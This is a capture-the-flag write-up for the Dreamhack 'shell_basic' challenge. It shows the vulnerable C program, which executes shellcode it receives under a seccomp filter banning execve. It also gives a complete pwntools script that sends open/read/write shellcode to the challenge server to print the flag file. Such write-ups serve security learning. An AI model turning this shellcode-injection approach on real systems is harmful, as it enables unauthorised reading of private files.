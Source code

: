 ```yaml
---
layout: post
title: "[dreamhack] shell_basic"
comments: true
category: wargame
---
```


## Description
![Description](/assets/img/shell_basic/shell_basic_description.png){: .mx-auto.d-block :}

We can get flag by send shellcode to server.

***

## C code

```cpp
// Compile: gcc -o shell_basic shell_basic.c -lseccomp
// apt install seccomp libseccomp-dev

#include <fcntl.h>
#include <seccomp.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/prctl.h>
#include <unistd.h>
#include <sys/mman.h>
#include <signal.h>

void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}

void init() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    signal(SIGALRM, alarm_handler);
    alarm(10);
}

void banned_execve() {
  scmp_filter_ctx ctx;
  ctx = seccomp_init(SCMP_ACT_ALLOW);
  if (ctx == NULL) {
    exit(0);
  }
  seccomp_rule_add(ctx, SCMP_ACT_KILL, SCMP_SYS(execve), 0);
  seccomp_rule_add(ctx, SCMP_ACT_KILL, SCMP_SYS(execveat), 0);

  seccomp_load(ctx);
}

void main(int argc, char *argv[]) {
  char *shellcode = mmap(NULL, 0x1000, PROT_READ | PROT_WRITE | PROT_EXEC, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);   
  void (*sc)();
  
  init();
  
  banned_execve();

  printf("shellcode: ");
  read(0, shellcode, 0x1000);

  sc = (void *)shellcode;
  sc();
}
```

After receiving 'shellcode: ', we can send shellcode and server will exec that by sc().

***

## Payload

We can use shellcraft() of pwntools for writing shellcode.
Shellcode must consist with these things.

1. Open flag's file. (fd -> rax)
2. Read flag and write that to buffer. (from rax to rsp)
3. Write buffer to stdout. (from rsp to stdout(1))

Here is full ex code.
```python
from pwn import *

context.arch = 'amd64'          # shellcodes are different by environment
r = remote('host3.dreamhack.games', 13296)

shellcode = shellcraft.open('/home/shell_basic/flag_name_is_loooooong')
shellcode += shellcraft.read('rax', 'rsp', 0x30)        # We don't know buf size,
shellcode += shellcraft.write(1, 'rsp', 0x30)           # but 0x30 is enough.

asmShellcode = asm(shellcode)

r.sendafter(b'shellcode: ', asmShellcode)
print(r.recv(0x30))
```